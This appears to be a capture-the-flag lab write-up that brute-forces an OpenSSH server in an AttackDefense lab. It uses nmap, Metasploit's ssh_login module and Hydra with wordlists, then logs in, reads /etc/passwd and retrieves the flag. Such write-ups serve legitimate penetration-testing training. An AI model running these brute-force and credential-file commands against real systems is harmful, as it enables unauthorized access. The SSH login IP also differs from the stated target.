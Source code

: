 # 🔬SSH

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [SSH Login](https://attackdefense.com/challengedetails?cid=1526)
>
> * Target IP: `192.142.193.3`
> * **Brute-force** of [OpenSSH](https://www.openssh.com/) server
> * **Enumeration and nmap scripts** have been already covered in this [SSH Enum lab](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/ssh-enum)

### Enumeration <a href="#enumeration" id="enumeration"></a>

```bash
ip -br a
nmap -sn 192.142.193.0/24
```

<figure><img src="../../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap -sV 192.142.193.3
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-07-19 08:32 UTC
Nmap scan report for target-1 (192.142.193.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:8E:C1:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> OpenSSH 7.9p1 cannot be exploited directly

```bash
msfconsole -q

msf5 > use auxiliary/scanner/ssh/ssh_version 
msf5 auxiliary(scanner/ssh/ssh_version) > show options
msf5 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.142.193.3
msf5 auxiliary(scanner/ssh/ssh_version) > run

[+] 192.142.193.3:22      - SSH server version: SSH-2.0-OpenSSH_7.9p1 Ubuntu-10 ( service.version=7.9p1 openssh.comment=Ubuntu-10 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:7.9p1 os.vendor=Ubuntu os.family=Linux os.product=Linux os.version=19.04 os.cpe23=cpe:/o:canonical:ubuntu_linux:19.04 service.protocol=ssh fingerprint_db=ssh.banner )
[*] 192.142.193.3:22      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Brute-Force - Metasploit <a href="#brute-force" id="brute-force"></a>

* Metasploit `ssh_login` module or `Hydra` tool can be utilized for brute forcing the SSH password

```bash
msf5 auxiliary(scanner/ssh/ssh_version) > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > show options
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.142.193.3
msf5 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
msf5 auxiliary(scanner/ssh/ssh_login) > exploit 
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Brute-Froce - Hydra

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt -t4 192.142.193.3 ssh
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Login to the target via SSH

```bash
ssh sysadmin@192.63.218.3
```

```bash
groups sysadmin
cat /etc/*release
uname -r
cat /etc/passwd
find / -name "flag"
cat /flag
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `eb09cc6f1cd72756da145892892fbf5a`
{% endhint %}

